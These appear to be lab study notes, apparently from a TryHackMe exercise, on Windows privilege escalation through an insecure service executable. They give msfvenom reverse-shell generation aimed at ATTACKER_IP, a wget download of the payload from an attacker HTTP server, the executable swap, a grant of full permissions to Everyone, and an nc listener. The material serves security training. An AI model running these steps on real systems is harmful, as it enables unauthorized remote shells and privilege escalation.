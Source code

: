 Check the in use services to see if any of them can be abused (e.g WService)

NOTE: must be in cmd.exe

`sc`

check a specific service:

`sc qc <servicename>`

<img src="../../../_resources/Screenshot%202023-05-16%20at%2019.09.17.png" alt="Screenshot 2023-05-16 at 19.09.17.png" width="447" height="240">

use "icacls" to check what permissions you have on the executable:

`icacls C:\PROGRA~2\SYSTEM~1\WService.exe`

<img src="../../../_resources/Screenshot%202023-05-16%20at%2019.10.28.png" alt="Screenshot 2023-05-16 at 19.10.28.png" width="608" height="149">

Above we see that "Everyone" has (M) permissions to modify the executable.

This means that we can generate a payload and name it as the executable (e.g WService.exe)

From here generate a reverse shell to log in as the user that made the service:

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe`

upload it via the python http server method (`python -m http.server 9000`) and the "wget" command
(`wget http://attacker_ip:9000/whatever_directory/rev-svc.exe -o rev-svc.exe`

then change the name of the original exe file to something else, move & rename the executable to the original one then apply permissions based off the orginal executable permissions:

```cmd
C:\> cd C:\PROGRA~2\SYSTEM~1\

C:\PROGRA~2\SYSTEM~1> move WService.exe WService.exe.bkp
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1> move C:\Users\thm-unpriv\rev-svc.exe WService.exe
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1> icacls WService.exe /grant Everyone:F
        Successfully processed 1 files.
```

set up nc listener as per the created payload (e.g `nc -lvnp 4445`)

now wait untill the task is run (may not be feasible) and you will have shell as the user that made the service